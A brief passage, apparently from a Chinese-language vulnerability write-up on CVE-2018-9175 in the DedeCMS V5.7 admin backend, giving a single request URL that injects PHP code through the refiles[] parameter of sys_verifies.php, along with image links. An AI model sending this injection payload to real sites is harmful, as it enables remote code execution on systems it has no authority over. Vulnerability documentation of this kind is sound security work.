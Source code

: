 因为包含是在同一个文件，所以直接输入

    http://0-sec.org/dede/sys_verifies.php?action=getfiles&refiles[]=123&refiles[]=\%22;phpinfo();die();//

![](resource/(CVE-2018-9175)DedecmsV5.7后台的两处getshell/media/rId29.png)
